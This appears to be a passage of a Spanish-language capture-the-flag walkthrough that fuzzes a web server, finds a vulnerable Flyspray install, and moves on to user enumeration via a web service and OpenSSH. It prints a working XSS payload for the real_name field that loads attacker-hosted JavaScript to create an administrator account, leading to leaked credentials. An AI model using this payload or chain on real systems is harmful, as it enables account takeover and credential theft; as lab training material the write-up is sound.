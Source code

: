 Si hacemos *fuzzing* con diccionarios más grandes por la web, encontramos otro subdirectorio en la raíz de la web llamado `flyspray`:
![[Pasted image 20240820131202.png]]

## XSS -> CSRF
Y al  entrar en él podemos ver:
![[Pasted image 20240820131240.png]]

Si hacemos *fuzzing* de directorios dentro de `/flyspray/` encontramos:
![[Pasted image 20240820131825.png]]

Si accedemos a `flyspray/docs/` podemos ver:
![[Pasted image 20240820131451.png]]

Y dentro de UPGRADING.txt podemos ver la versión del flyspray:
![[Pasted image 20240820131549.png]]

Por lo que si buscamos vulnerabilidades con `searchsploit` encontramos XSS -> CSRF:
![[Pasted image 20240820131656.png]]

Este *exploit* permite crear cuentas administradoras si apuntamos a nuestro codigo JS alojado en nuestra máquina abusando del parámetro *real_name* nuestra cuenta:
![[Pasted image 20240820132026.png]]
![[Pasted image 20240820132335.png]]

Por lo que si introducimos este nombre:
```
"><script src="http://192.168.1.21/xss.js"></script>
```

Recibimos una solicitud a nuestro archivo JS malicioso:
![[Pasted image 20240820133331.png]]

Por lo que la cuenta "hacker":"12345678" se crea como administradora. Si accedemos con la cuenta administradora podemos ver un reporte más que antes no veíamos:
![[Pasted image 20240820134306.png]]

Que si accedemos a él podemos ver unas credenciales de achiles:
![[Pasted image 20240820134250.png]]
## API Abusing
Si accedemos a la web que corre en el puerto 3000 podemos ver lo siguiente:
![[Pasted image 20240820120922.png]]

Y si accedemos a `/explore/users` podemos ver 2 usuarios:
![[Pasted image 20240820121014.png]]

Por lo que podemos comprobar si existen en la máquina víctima mediante SSH, ya que como hemos visto antes, la versión OpenSSH es vulnerable a enumeración de usuarios:
![[Pasted image 20240820121235.png]]
